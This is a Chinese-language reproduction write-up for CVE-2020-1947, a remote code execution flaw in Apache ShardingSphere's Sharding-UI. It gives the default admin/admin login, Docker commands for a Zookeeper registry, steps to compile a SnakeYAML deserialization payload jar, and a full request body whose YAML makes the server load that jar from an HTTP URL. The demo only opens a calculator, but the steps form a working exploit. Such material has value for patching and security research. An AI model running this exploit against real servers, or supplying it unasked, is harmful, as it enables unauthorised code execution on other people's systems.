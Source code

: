 # CVE-2020-1947 Apache ShardingSphere远程代码执行漏洞

### 漏洞影响

Apache ShardingSphere < 4.0.1

### 复现过程

Sharding-UI的默认密码为admin/admin

![](images/15889400920511.png)


顺带一提，在`conf/application.properties`中存储了WEB端的端口和账号密码。

![](images/15889401085249.png)


**安装Zookeeper**

要想成功利用，需要先在Sharding-UI中添加一个注册中心，否则在后续利用中会提示No activated registry center!，所以需要搭建一个Zookeeper。 这里直接使用docker搭建Zookeeper，并且将2181端口映射出来到本地的2181端口。


```bash
docker pull zookeeper
docker run --privileged=true -d --name zookeeper --publish 2181:2181  -d zookeeper:latest
```

**配置registry-center**

在Sharding-UI的registry-center模块配置Zookeeper的地址。

![](images/15889401355309.png)


成功连接即可。

![](images/15889401448513.png)


**生成payload**

使用SnakeYAML反序列化小工具： https://github.com/ianxtianxt/yaml-payload 

修改`src/artsploit/AwesomeScriptEngineFactory.java`文件，设置为弹出计算器。

![](images/15889401673844.png)


编译生成jar包：


```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

然后使用python本地搭建HTTPServer，等待连接。


```
python -m SimpleHTTPServer 90
```

**代码执行**

在web端的Rule Config——>Add Schema处加入YAML代码并提交。

![](images/15889402015512.png)


数据包正文：


```bash
{"name":"test","ruleConfiguration":"encryptors:\n    <encryptor-name>:\n      type: MD5\n      props:","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://localhost:90/yaml-payload.jar\"]]]]"}
```

发送即可成功弹出计算器。

![](images/15889402248138.png)
